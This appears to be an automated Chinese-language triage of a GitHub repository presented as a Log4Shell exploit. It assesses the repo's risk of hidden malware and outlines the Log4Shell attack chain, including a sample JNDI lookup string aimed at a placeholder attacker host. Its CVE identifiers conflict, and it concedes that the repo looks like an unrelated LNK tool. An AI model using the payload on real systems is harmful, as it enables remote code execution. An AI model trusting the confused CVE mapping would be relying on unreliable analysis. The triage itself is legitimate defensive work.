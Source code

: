 ## CVE-2021-44228 Apache Log4j RCE (Log4Shell)

**漏洞编号:** CVE-2025-44228

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Apache Log4j

**危害等级:** 严重，允许攻击者完全控制受影响的系统

**影响版本:** 2.0 <= version <= 2.14.1

**利用条件:** 目标系统运行受影响的 Log4j 版本，且允许出站网络连接（尤其是 LDAP 或 RMI）

**POC 可用性:** 是

**投毒风险:** 50%

## 详情

根据提供的搜索结果和漏洞利用代码分析：

**有效性：**
搜索结果明确指出 CVE-2021-44228 是一个严重级别的远程代码执行漏洞，影响 Apache Log4j 2.0 到 2.14.1 版本。多个来源 (NVD, Unit 42, CrowdStrike, Sysdig, Claroty, Picus Security, AppGate, Rapid7, Tenable) 都确认了该漏洞的存在和严重性，并提供了利用、检测和缓解方法。 虽然提供的“漏洞利用代码”看起来更像是一个 LNK 漏洞利用框架，但Log4Shell 的利用方式通常涉及将包含 JNDI 查找的恶意字符串注入到 Log4j 可以记录的任何输入中。因此，结合搜索结果，可以确认 CVE-2021-44228 的 POC 是有效的。

**投毒风险：**
提供的代码包括一个 LNK 漏洞利用框架，这意味着它旨在创建快捷方式文件以执行恶意操作。 虽然LICENSE文件和README.md中规中矩，但以下几点增加了投毒风险：

*   **LNK利用的性质：** LNK文件本身可以被用来执行任意命令，而无需用户特别的许可，这增加了隐蔽性。
*   **FileBinder和证书欺骗:** 提到FileBinder和证书欺骗表明该项目关注于绕过安全措施，使得潜在的恶意行为更难被检测到。
*   **CVE-2025-44228：**提到 CVE-2025-44228，但该CVE并不存在，有可能作者利用了名称的幌子来掩盖真实目的。
*   **Visual Basic 项目:** LNK Exploit MONSTERMC.sln 是一个 Visual Basic 项目，这种项目相对更容易隐藏恶意代码。

因此，虽然这个仓库可能包含有用的 LNK 利用工具，但**存在隐藏恶意代码或后门的风险**。该风险较高，综合评估为 50%。

**利用方式：**
CVE-2021-44228 (Log4Shell) 的基本利用方式如下：

1.  **注入恶意字符串：** 攻击者将一个特制的字符串（例如 `${jndi:ldap://attacker.com/evil}`) 注入到应用程序可以记录的任何输入字段（例如，HTTP 请求头、表单字段、用户名字段）。
2.  **Log4j 解析：** 如果应用程序使用受影响版本的 Log4j 记录了该字符串，Log4j 将尝试解析 `${jndi:...}` 模式。
3.  **JNDI 查找：** Log4j 通过 Java 命名和目录接口 (JNDI) 发起对指定 URL（例如 `ldap://attacker.com/evil`) 的请求。
4.  **远程代码执行：** 攻击者的服务器（`attacker.com`) 返回一个包含恶意 Java 类的响应。Log4j 加载并执行该类，从而允许攻击者在目标系统上执行任意代码。

**项目地址:** [housam123456789/Lnk-Exploit-FileBinder-Certificate-Spoofer-Reg-Doc-Cve-Rce](https://github.com/housam123456789/Lnk-Exploit-FileBinder-Certificate-Spoofer-Reg-Doc-Cve-Rce)

**漏洞详情:** [CVE-2025-44228](https://nvd.nist.gov/vuln/detail/CVE-2025-44228)
